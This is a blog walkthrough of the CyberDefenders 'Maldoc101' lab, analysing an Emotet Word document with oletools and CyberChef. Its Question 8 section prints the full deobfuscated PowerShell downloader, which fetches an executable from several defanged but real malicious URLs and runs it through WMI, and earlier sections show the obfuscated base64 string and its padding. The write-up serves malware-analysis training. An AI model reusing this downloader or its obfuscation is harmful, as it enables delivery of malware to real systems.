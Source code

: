 ```yaml
---
layout: post
author: remotephone
title:  "CyberDefenders.org - Maldoc101 Walkthrough"
date:   2021-04-12 00:40:00 -0600
categories: lab homelab malware malware workflow
---
```


# Another go at CyberDefenders.org 

Having another go at a [CyberDefenders](https://cyberdefenders.org/) challenge, this one about maldocs. You can find a link to the challenge [here](https://cyberdefenders.org/labs/51).

## Environment

I did this through Windows Subsystem for Linux 2. I already have that environment installed and working, but any linux environment should give you a very similar path to follow what I did. 

I also grabbed [oletools](https://github.com/decalage2/oletools) as this is the king of the maldoc analyzers. My install process followed the instructions on his page (slightly modified) to `pip3 install oletools --user` and I also separately grabbed oledump from [here](https://blog.didierstevens.com/programs/oledump-py/) as it wasn't included. Simply wget and unzipped it to my temporary working directory, which made a mess, but we only have one file we're working with so who's counting? 


## Some notes

I appreciate them renaming this file to sample.bin so someone doesn't accidentally maldoc themselves. I am also just generally impressed at the experience on this site. Just sign up, go to a lab, and start plugging away. I'm currently downloading a 27gig macos forensics image and I'm surprised no one's charging me. 

## Question 1: What streams contain macros in this document? 

To know what they're asking for here, it helps to be familiar with the structure of the file. Yet again, back at Didier Steven's excellent documentation for info on that [here](https://olefile.readthedocs.io/en/latest/OLE_Overview.html). 

His description is as follows:

~~~
An OLE file can be seen as a mini file system or a Zip archive: It contains streams of data that look like files embedded within the OLE file. Each stream has a name. For example, the main stream of a MS Word document containing its text is named “WordDocument”.

An OLE file can also contain storages. A storage is a folder that contains streams or other storages. For example, a MS Word document with VBA macros has a storage called “Macros”.

Special streams can contain properties. A property is a specific value that can be used to store information such as the metadata of a document (title, author, creation date, etc). Property stream names usually start with the character ‘\x05’ (ASCII code 5).
~~~

Ok that makes sense. Let's oledump the file. This is the truncated output

~~~bash
computer@computer: ~/gits/MalDoc101
$ python oledump.py sample.bin                                                                               [22:50:23]
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7119 '1Table'
  5:    101483 'Data'
  6:       581 'Macros/PROJECT'
  7:       119 'Macros/PROJECTwm'
  8:     12997 'Macros/VBA/_VBA_PROJECT'
  9:      2112 'Macros/VBA/__SRP_0'
 10:       190 'Macros/VBA/__SRP_1'
 11:       532 'Macros/VBA/__SRP_2'
 12:       156 'Macros/VBA/__SRP_3'
 13: M    1367 'Macros/VBA/diakzouxchouz'
 14:       908 'Macros/VBA/dir'
 15: M    5705 'Macros/VBA/govwiahtoozfaid'
 16: m    1187 'Macros/VBA/roubhaol'
<SNIP>
 ~~~

We can see 3 streams identified with M for macro i guess. We submit 13,15,16 and get our first flag.

## Question 2: What event is used to begin the execution of the macros?	

We can use olevba to break down this document in a way we can digest very easily. I pipe it to less because there is a lot of output and its good to start from the top. Right away, we see the function that's guilty, `Document_open`

~~~bash
olevba 0.56.1 on Python 3.8.5 - http://decalage.info/python/oletools
===============================================================================
FILE: sample.bin
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO diakzouxchouz.cls
in file: sample.bin - OLE stream: 'Macros/VBA/diakzouxchouz'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub _
Document_open()
boaxvoebxiotqueb
End Sub
~~~

You can read more about that [here](https://docs.microsoft.com/en-us/office/vba/api/word.document.open) before submitting the flag. 

## Question #3: Identify the malware family

We can get a hash of the file and see if Virustotal has seen it yet, it should be pretty quick if it has.

https://www.virustotal.com/gui/file/d50d98dcc8b7043cb5c38c3de36a2ad62b293704e3cf23b0cd7450174df53fee/detection

Luck would have it, its already been uploaded, and this is Emotet. 

## Question 4: What stream is responsible for the storage of the base64-encoded string?	

This one was honestly a guess for me. I tried olevba'ing it, I could see content was flagged as base64 encoded in the function `roubhaol` but I couldn't find the exact stream. I oledump'ed the file again and reviewed the output

~~~bash
 31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
 32:        40 'Macros/roubhaol/i09/i12/f'
 33:         0 'Macros/roubhaol/i09/i12/o'
 34:     15164 'Macros/roubhaol/i09/o'
 35:        48 'Macros/roubhaol/i09/x'
 36:       444 'Macros/roubhaol/o'
~~~

My guess here was the biggest section must have it, so 34 is your flag. 

## Question 5: This document contains a user-form. Provide the name?	

Here, we can oledir the file to see all the parts of it, and browse it as a directory structure. 

computer@computer: ~/gits/MalDoc101
$ oledir sample.bin                                                                                          [23:10:11]
oledir 0.54 - http://decalage.info/python/oletools
OLE directory entries in file sample.bin:
----+------+-------+----------------------+-----+-----+-----+--------+------
id  |Status|Type   |Name                  |Left |Right|Child|1st Sect|Size
----+------+-------+----------------------+-----+-----+-----+--------+------
0   |<Used>|Root   |Root Entry            |-    |-    |3    |F3      |10112
1   |<Used>|Stream |Data                  |-    |-    |-    |8       |101483
2   |<Used>|Stream |1Table                |1    |-    |-    |CF      |7119
<SNIP SNIP>
12  |    govwiahtoozfaid         |5705  |
11  |    roubhaol                |1187  |
17  |  roubhaol                  |-     |
41  |    \x01CompObj             |97    |
42  |    \x03VBFrame             |292   |
18  |    f                       |510   |
20  |    i05                     |-     |6E182020-F460-11CE-9BCD-00AA00608E01
    |                            |      |Forms.Frame
23  |      \x01CompObj           |112   |
21  |      f                     |44    |
22  |      o                     |0     |
24  |    i07                     |-     |6E182020-F460-11CE-9BCD-00AA00608E01
    |                            |      |Forms.Frame
27  |      \x01CompObj           |112   |
25  |      f                     |44    |
26  |      o                     |0     |
28  |    i09                     |-     |46E31370-3F7A-11CE-BED6-00AA00611080
    |                            |      |Forms.MultiPage
<SNIP SNIP>
~~~

Here, we can clearly see that `roubhaol` again is the interesting part of the document, and that is our flag. The Forms.Frame and Forms.Multipage are indicators of the user form being present.

## Question 6: This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?	

Review the Suspicious string, this is a snippet of it. 

~~~bash
�p2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fqh2342772g3&*gs7712ffvs626fqeL2342772g3&*gs7712ffvs626fqL2342772g3&*gs7712ffvs626fq 2342772g3&*gs7712ffvs626fq-2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fq JABsAG2342772g3&*gs7712ffvs626fqkAZQBj2342772g3&*gs7712ffvs626fqAGgAcg2342772g3&*gs7712ffvs626fqBvAHUA2342772g3&*gs7712ffvs626fqaAB3AH2342772g3&*gs7712ffvs626fqUAdwA92342772g3&*gs7712ffvs626fqACcAdg2342772g3&*gs7712ffvs626fqB1AGEA2342772g3&*gs7712ffvs626fqYwBkAG2342772g3&*gs7712ffvs626fq8AdQB22342772g3&*gs7712ffvs626fqAGMAaQ2342772g3&*gs7712ffvs626fqBvAHgA2342772g3&*gs7712ffvs626fqaABhAG2342772g3&*gs7712ffvs626fq8AbAAn2342772g3
~~~

What string do we see repeating? It's difficult to get it visually, but since we less'ed the output of olevba, we can search for the string. I know that `42772g3&` is going to be part of it, so if I start from the top of the doc and search down, we can see where that padding is split from the text.

~~~bash
feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")
~~~

## Question 7: What is the purpose of the base64 encoded string?	

These are always hard for me because I don't know exactly what the question wants. We can run the doc through `olevba sample.bin --reveal -a` which will give us the output we can work with, then take the very large text block that starts with `p2342772g3&*gs7...` and get that into cyber chef to deobfuscate it. This [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Simple%20string','string':'2342772g3%26*gs7712ffvs626fq'%7D,'',true,false,false,false)) will remove the padding, 

Finally, this [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Simple%20string','string':'2342772g3%26*gs7712ffvs626fq'%7D,'',true,false,false,false)Find_/_Replace(%7B'option':'Regex','string':'powersheLL%20-e%20'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true)Remove_null_bytes()) will clean up the script, remove the `powersheLL -e` from the beginning, and decode the base64.

To know you're deobfuscating the correct string, it should start with `p234` and end with `fvs626fqA=`.

The flag ends up being the first word of the depadded script, powershell. 

## Question 8: What WMI class is used to create the process to launch the trojan?	

Now that we have the deobfuscated script, it should look something like this (I changed every instance of http or https to hxxp or hxxps):

~~~bash
$liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='hxxps://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*hxxps://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*hxxp://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*hxxp://holfve.se/images/1ckw5mj49w_2k11px_d/*hxxp://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
~~~

We can pretty easily see the wmiclass `win32_Process` and that's our next flag. 

## Question 9: Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.	

We can see above pretty easily the first domain, `haoqunkong[.]com`. Submit it without the square brackets and we're done. 

## OK that's it, again

Good stuff yet again. I am enjoying the exercises and it's nice to keep sharp on this stuff. Free form answers are sometimes tricky with investigative questions, but usually its pretty obvious. I used the first hint (the ones that dont take any points away) a few times, but they usually didn't give me anything I could work with. Trial and error is your friend sometimes. Thanks for reading.